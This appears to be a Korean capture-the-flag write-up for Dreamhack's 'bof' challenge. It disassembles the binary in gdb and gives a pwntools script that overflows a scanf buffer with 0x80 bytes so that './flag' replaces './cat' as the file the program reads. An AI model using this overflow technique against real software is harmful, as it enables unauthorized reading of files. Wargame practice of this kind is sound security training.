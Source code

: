 ```yaml
---
title: bof
date: 2025-05-19
categories:
  - Dreamhack
  - pwnable
tags:
  - wargame
---
```


# Description

Buffer overflow is one of the basics of pwnable 🐱
The path of the flag file is /home/bof/flag.


# Solution

### 주어진 파일 분석
``` sh
.
├── bof
├── cat
└── flag
```
``` sh
$file *
bof:  ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6ee3ca326b528ee95ff762279b9c27469bc76af9, for GNU/Linux 3.2.0, not stripped
cat:  ASCII text
flag: ASCII text
```
```sh
./bof
meow? aa

 /\_/\   meow~
( o.o )
 > ^ <

meow, aa :)
```
meow? 이후 입력을 받은 값을 후에 다시 출력해 주는 실행파일 bof가 있다. 
### 문제 풀이 

gdb를 이용해 바이너리를 분석하였다. 
``` sh 
gdb-peda$ info func

...
0x0000000000401236  read_cat
0x000000000040132c  init
0x0000000000401391  main
0x0000000000401420  _fini
```
info func를 통해 함수들을 살펴보면 main 함수, read_cat 함수 등이 있는 것을 확인할 수 있다.   
pdisas main을 통해 main 함수 내부를 살펴보면 다음과 같다. 
```sh
gdb-peda$ pdisas main 

Dump of assembler code for function main:
   0x0000000000401391 <+0>:     endbr64
   0x0000000000401395 <+4>:     push   rbp
   0x0000000000401396 <+5>:     mov    rbp,rsp
   0x0000000000401399 <+8>:     sub    rsp,0x90
   0x00000000004013a0 <+15>:    mov    eax,0x0
   0x00000000004013a5 <+20>:    call   0x40132c <init>
   0x00000000004013aa <+25>:    lea    rax,[rbp-0x10]
   0x00000000004013ae <+29>:    mov    DWORD PTR [rax],0x61632f2e
   0x00000000004013b4 <+35>:    mov    WORD PTR [rax+0x4],0x74
   0x00000000004013ba <+41>:    lea    rax,[rip+0xc6c]        # 0x40202d
   0x00000000004013c1 <+48>:    mov    rdi,rax
   0x00000000004013c4 <+51>:    mov    eax,0x0
   0x00000000004013c9 <+56>:    call   0x4010d0 <printf@plt>
   0x00000000004013ce <+61>:    lea    rax,[rbp-0x90]
   0x00000000004013d5 <+68>:    mov    rsi,rax
   0x00000000004013d8 <+71>:    lea    rax,[rip+0xc55]        # 0x402034
   0x00000000004013df <+78>:    mov    rdi,rax
   0x00000000004013e2 <+81>:    mov    eax,0x0
   0x00000000004013e7 <+86>:    call   0x401130 <__isoc99_scanf@plt>
   0x00000000004013ec <+91>:    lea    rax,[rbp-0x10]
   0x00000000004013f0 <+95>:    mov    rdi,rax
   0x00000000004013f3 <+98>:    call   0x401236 <read_cat>
   0x00000000004013f8 <+103>:   lea    rax,[rbp-0x90]
   0x00000000004013ff <+110>:   mov    rsi,rax
   0x0000000000401402 <+113>:   lea    rax,[rip+0xc31]        # 0x40203a
   0x0000000000401409 <+120>:   mov    rdi,rax
   0x000000000040140c <+123>:   mov    eax,0x0
   0x0000000000401411 <+128>:   call   0x4010d0 <printf@plt>
   0x0000000000401416 <+133>:   mov    eax,0x0
   0x000000000040141b <+138>:   leave
   0x000000000040141c <+139>:   ret
```
8번 라인부터 확인해 보면 스택 탑을 0x90만큼 올려 준 것을 확인할 수 있고, 25번 라인부터 확인하면 그 중에서 0x10만큼의 공간에 0x2e2f636174를 넣어 준 것을 확인할 수 있다. 아스키 코드 변환해 보면 ./cat에 해당하는 16진수 값들이다.    
rbp-0x10, 즉 ./cat 값은 read_cat 함수를 호출할 때 rdi에 들어가는 값이므로 여기에 ./cat이 아닌 ./flag를 넣게 된다면 플래그 값을 읽어올 수 있다.   
61번 라인에서 볼 수 있듯 입력 값은 scanf 이전에 rsi에 담긴 주소부터 저장이 되므로 rbp-0x90에서 rbp-0x10까지 (0x80만큼) 아무 값이나 넣어 채워 주고, rbp-0x10부터 ./flag에 해당하는 값을 넣도록 코드를 작성하였다. 

``` python
from pwn import *

p = process("./bof")

p.recv()

payload = 'A'* 0x80
payload += './flag'

p.sendline(payload.encode())
p.interactive()
```

실제 플래그를 얻기 위해서는 서버 정보를 받아 와 remote를 통해 문제를 풀이하면 됨 